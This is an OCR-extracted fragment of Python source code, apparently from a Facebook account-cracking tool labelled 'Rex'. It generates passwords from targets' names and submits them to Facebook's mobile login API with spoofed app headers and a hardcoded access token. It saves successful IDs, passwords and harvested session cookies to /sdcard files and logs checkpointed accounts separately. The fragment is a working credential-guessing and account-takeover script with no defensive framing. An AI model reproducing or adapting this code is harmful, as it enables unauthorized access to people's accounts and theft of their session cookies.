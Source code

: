 'Content-Type': 'application/x-www-form-urlencoded',
'Host': 'graph.facebook.com',
'X-FB-Net-HNI': str(random.randint(20000, 40000)),
'X-FB-SIM-HNI': str(random.randint(20000, 40000)),
'X-FB-Connection-Type': 'MOBILE.LTE',
'X-Tigon-Is-Retry': 'False',
'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62',
'x-fb-device-group': '5120',
'X-FB-Friendly-Name': 'ViewerReactionsMutation',
'X-FB-Request-Analytics-Tags': 'graphservice',
'X-FB-HTTP-Engine': 'Liger',
'X-FB-Client-IP': 'True',
'X-FB-Server-Cluster': 'True',
'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62',}
                q = session.post("https://b-graph.facebook.com/auth/login",data=data, headers=headers, allow_redirects=False).json()
                if 'session_key' in q:
                    ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"]);Rexb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-");cookie = f"sb={Rexb};{ckkk}"
                    print(f"\r{R} [Rex-OK] {sid} | {ps} {S}")
                    oks.append(sid)
                    open('/sdcard/Rex_OK_ids_M2.txt','a').write(sid+'|'+ps+'\n');open('/sdcard/Rex_iDs_COOKiEs_M2.txt','a').write(sid+'|'+ps+'|'+cookie+'\n')
                    break
                elif 'www.facebook.com' in q['error']['message']:
                    #  print(f"\r{A} [Rex-CP] {sid} | {ps} {S}")
                    cps.append(sid)
                    open('/sdcard/Rex_CP.txt','a').write(sid+'|'+ps+'\n')
                else:
                    continue
            loop+=1
        except requests.exceptions.ConnectionError:
            self.methodC(sid, name, ps)
            
    def methodB(self, sid, name, psw):
        try:
            global oks,cps,loop
            sys.stdout.write(f"\r {S}[Rex] {loop} | M2 OK/CP {len(oks)}/{len(cps)} | {S}{'{:.0%}'.format(loop/float(len(self.id)))}{S}")
            sys.stdout.flush()
            fs = name.split(' ')[0]
            try:
                ls = name.split(' ')[1]
            except:
                ls = fs
            for pw in psw:
                ps = pw.replace('first',fs.lower()).replace('First',fs).replace('last',ls.lower()).replace('Last',ls).replace('Name',name).replace('name',name.lower())
                with requests.Session() as session:
                    data = {"adid": str(uuid.uuid4()),
"format": "json",
"device_id": str(uuid.uuid4()),
"cpl": "true",
"family_device_id": str(uuid.uuid4()),
"credentials_type": "device_based_login_password",
"error_detail_type": "button_with_disabled",
"source": "device_based_login",
"email": sid,
"password": ps,
"access_token": "350685531728%7C62f8ce9f74b12f84c123cc23437a4a32",
"generate_session_cookies": "1",